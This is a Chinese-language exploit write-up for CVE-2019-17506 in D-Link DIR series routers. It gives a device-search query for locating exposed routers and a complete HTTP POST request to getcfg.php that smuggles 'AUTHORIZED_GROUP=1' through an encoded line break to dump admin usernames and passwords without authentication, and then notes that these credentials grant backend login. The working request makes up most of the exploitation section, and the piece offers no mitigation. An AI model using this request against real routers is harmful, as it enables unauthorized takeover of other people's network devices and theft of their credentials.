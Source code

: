 # 

# D-Link Dir-645 getcfg.php 账号密码泄露漏洞 CVE-2019-17506 

## 漏洞描述

D-Link DIR-868L B1-2.03和DIR-817LW A1-1.04路由器上有一些不需要身份验证的Web界面。攻击者可以通过SERVICES的DEVICE.ACCOUNT值以及AUTHORIZED_GROUP = 1％0a来获取getcfg.php的路由器的用户名和密码（以及其他信息）。这可用于远程控制路由器

## 漏洞影响

```
D-Link Dir 系列多个版本
```

## 网络测绘

```
app="D_Link-DIR-868L"
```

## 漏洞复现

登录页面如下

![](./images/202202162225738.png)

发送下请求包

```plain
POST /getcfg.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Length: 61

SERVICES=DEVICE.ACCOUNT&attack=ture%0D%0AAUTHORIZED_GROUP%3D1
```

![](./images/202202162226400.png)

获取到路由器账号密码即可登录后台

